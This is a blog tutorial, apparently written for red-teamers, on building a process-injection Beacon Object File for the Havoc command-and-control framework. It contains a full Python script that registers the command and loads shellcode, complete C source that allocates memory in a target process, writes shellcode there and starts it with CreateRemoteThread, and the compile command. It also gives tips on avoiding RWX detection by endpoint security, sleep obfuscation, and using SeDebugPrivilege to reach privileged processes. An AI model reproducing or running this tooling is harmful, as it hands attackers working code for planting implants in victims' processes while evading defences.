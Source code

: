 [back to blog](../blog.md)

## Process Injection
This blog will outline a simple process injection in a remote process. The windows API that will be used are the following:

| Windows API | Usage 
| -------- | -------- 
| [Openprocess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) | Will be used to open the handle of target process. 
| [VirtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) | Will be used for allocating memory in the target process, allocated memory size will depend on the shellcode size. 
| [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) | Writes the shellcode in the allocated memory address.
| [VirtualProtectEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotectex) | Will be used for changing the memory permission to read,execute (RX) instead of Read, Write, Execute (RWX).
| [CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread) | Will be used for creating a thread on the target process inorder to execute our shellcode.
| [CloseHandle](https://learn.microsoft.com/en-us/windows/win32/api/handleapi/nf-handleapi-closehandle) | Close the open handle.

When creating a BOF, I **highly recommend starting with C code first**. Run it to verify that it works, **and then convert it into a BOF** once confirmed, that it's working convert it to BOF. This will save up some time debugging some issues on the code.

## Aggressor script

This time we will start first with an aggressor script. Edit the script previously used and add the new python function.

```py
<SNIPPED>
def run_procinj(demon_id, *args):
    
    task_id: str = None
    demon: Demon = None
    packer: Packer = Packer() 
    # Get the beacon instance
    demon = Demon(demon_id)
    binary: bytes = None

    if len(args) < 2:
        demon.ConsoleWrite(demon.CONSOLE_ERROR, "Not enough arguments")
        return False

    # Get shellcode path
    path = args[0]

    # Check if the shellcode path exists
    if not exists(path):
        demon.ConsoleWrite(demon.CONSOLE_ERROR, f"Shellcode not found: {path}")
        return False

    # Read the shellcode from the specified path into 'binary' variable
    with open(path, 'rb') as handle:
        binary = handle.read()

    if not binary:
        demon.ConsoleWrite(demon.CONSOLE_ERROR, "Specified shellcode is empty")
        return False

    # Add the arguments to the packer
    packer.addbytes(binary)
    packer.addint(int(args[1]))

    task_id = demon.ConsoleWrite(demon.CONSOLE_TASK, f"Tasked the demon to execute process injection on the process ID: {args[1]}")
   
    demon.InlineExecute(task_id, "go", "bin/test2.o", packer.getbuffer(), False)
    #testbof procinj /home/kali/mdev/havocbof/demon.x64.bin 1992
    return task_id

<SNIPPED>
RegisterCommand(run_procinj, "testbof", "procinj", "Performs a process injection on the target process", 0, "usage: ", "4512")
```

## BOF

When writing BOF, you often use **DECLSPEC_IMPORT** in function declarations like **DECLSPEC_IMPORT WINBASEAPI BOOL WINAPI KERNEL32$CloseHandle(HANDLE)** so the linker knows the function is imported from Windows DLL like (e.g., kernel32.dll, advapi32.dll). The DECLSPEC_IMPORT and the $ prefixed symbol names to ensure Beacon can resolve them at runtime. **Module$Function**

Why it matters for BOFs:

- BOFs are compiled as object files (.o) without the standard runtime.
- You don’t link against Windows libraries directly.


More information at [DFR](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/beacon-object-files_dynamic-func-resolution.htm)


```c
#include <windows.h>
#include "beacon.h"

//kernel32 dll
DECLSPEC_IMPORT WINBASEAPI LPVOID WINAPI KERNEL32$VirtualAllocEx(HANDLE, LPVOID, SIZE_T, DWORD, DWORD);
DECLSPEC_IMPORT WINBASEAPI BOOL WINAPI KERNEL32$WriteProcessMemory(HANDLE, LPVOID, LPCVOID, SIZE_T, SIZE_T*);
DECLSPEC_IMPORT WINBASEAPI HANDLE WINAPI KERNEL32$CreateRemoteThread(HANDLE, LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD);
DECLSPEC_IMPORT WINBASEAPI HANDLE WINAPI KERNEL32$OpenProcess(DWORD, BOOL, DWORD);
DECLSPEC_IMPORT WINBASEAPI BOOL WINAPI KERNEL32$CloseHandle(HANDLE);
DECLSPEC_IMPORT WINBASEAPI DWORD WINAPI KERNEL32$GetLastError(void);
DECLSPEC_IMPORT WINBASEAPI BOOL WINAPI KERNEL32$VirtualProtectEx(HANDLE, LPVOID, SIZE_T, DWORD, PDWORD);


void go(char* args, int argc){
    
    datap parser;
    DWORD procid;
    DWORD   dwOldProtection = NULL;
    PSTR  shellcode = { 0 };
    DWORD shellcodeLength    = { 0 };
    SIZE_T  sNumberOfBytesWritten = NULL;
    HANDLE pHandle;
    HANDLE rthreadHandle;
    PVOID bufferMemoryaddr;
    DWORD tid = 0;

    //Beacon data parser
    BeaconDataParse(&parser, args, argc);
    

    shellcode = BeaconDataExtract(&parser, &shellcodeLength);
    procid = BeaconDataInt(&parser);

    //prints hello world
    BeaconPrintf(CALLBACK_OUTPUT, "[!] Target PID: %d", procid);

    pHandle = KERNEL32$OpenProcess(PROCESS_ALL_ACCESS, FALSE, procid);
    if (!pHandle){
        BeaconPrintf(CALLBACK_OUTPUT, "[x] Failed to open process error code: %d\n", KERNEL32$GetLastError());
        return 1; //failure
    }

    bufferMemoryaddr = KERNEL32$VirtualAllocEx(pHandle, NULL, shellcodeLength, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (!bufferMemoryaddr) {
        BeaconPrintf(CALLBACK_OUTPUT,"[x] Failed to allocate memory: %d\n", KERNEL32$GetLastError());
        return 1;
    }
    BeaconPrintf(CALLBACK_OUTPUT,"[!] memory allocated at: 0x%p\n", bufferMemoryaddr);

    if (!KERNEL32$WriteProcessMemory(pHandle, bufferMemoryaddr, shellcode, shellcodeLength, &sNumberOfBytesWritten)) {
        BeaconPrintf(CALLBACK_OUTPUT,"[x] WriteProcessMemory Failed With Error : %d \n", KERNEL32$GetLastError());
        return 1;
    }
    if (!KERNEL32$VirtualProtectEx(pHandle, bufferMemoryaddr, shellcodeLength, PAGE_EXECUTE_READ, &dwOldProtection)) {
        BeaconPrintf(CALLBACK_OUTPUT,"[x] VirtualProtectEx Failed With Error : %d \n", KERNEL32$GetLastError());
        return 1;
    }

    rthreadHandle = KERNEL32$CreateRemoteThread(pHandle, NULL, 0, (LPTHREAD_START_ROUTINE)bufferMemoryaddr, NULL, 0, &tid);
    if(!rthreadHandle){
        BeaconPrintf(CALLBACK_OUTPUT,"[x] Failed to create remote thread: %d\n", KERNEL32$GetLastError());
        return 1;
    }
    BeaconPrintf(CALLBACK_OUTPUT, "[!] remote thread id : %lu \n", tid);
    KERNEL32$CloseHandle(pHandle);

}
```

```bash
x86_64-w64-mingw32-gcc -c src/procinj.c -w -o bin/test2.o 
```
Get a shell, then execute the BOF. As shown from the screenshot below it shows the memory address that has been allocated on the target process and it's remote thread ID for debugging purpose.
![alt text](img/image4.png)
![alt text](img/image-1.png)


Just a little information on how to check what was written on the memory address you can use **x64dbg, attach to the target process then press ctrl + g, paste the memory address**. In this screenshot I change my payload to msfvenom calc bin so it can be easier to read. As shown we can see the signatured `FC 48 83` and then the calc.exe
![alt text](img/image-2.png)

My havoc payload that I used, performs a sleep obfuscation technique with WaitForSingleObjextEx. TL;DR: Sleep obfuscation **changes the memory protection from RW to RX, and then back to RW** [sleep obfuscation](https://dtsec.us/2023-04-24-Sleep/)

To check what happens on sleep, use process hacker, check the target process and then go to the threads, locate the thread id. The screenshot below shows when it's on sleep. 
![alt text](img/image22.png)

The screenshot below shows when it's not on sleep. As observe it's using winHTTP library for the communication.

![alt text](img/image5.png)

If you are trying to perform a process injection on a process owned by other user or a process owned by NT authority and you dont have enough privilege. This wont be possible because of access control restrictions. But if you enable SeDebugPrivilege you will be able to injec.
![alt text](img/image-3.png)


I changed the VirtualAllocEx with page execute read write and comment out the VirtualProtectEx to see the difference and also without the sleep obfuscation from have. I used the metasploit calc here for POC.

As shown from the screenshot below the RWX stands out and most endpoint security solution flags this and gets highly detected, so the better approach is to change it to RX. If you change it to Read it wont be executed. Clicking on the RWX this shows what was written on that memory and it shows the metasploit calc.
![alt text](img/image6.png)

References
- https://www.ired.team/offensive-security/code-injection-process-injection/process-injection
- https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/beacon-object-files_dynamic-func-resolution.htm
- https://dtsec.us/2023-04-24-Sleep

[back to blog](../blog.md)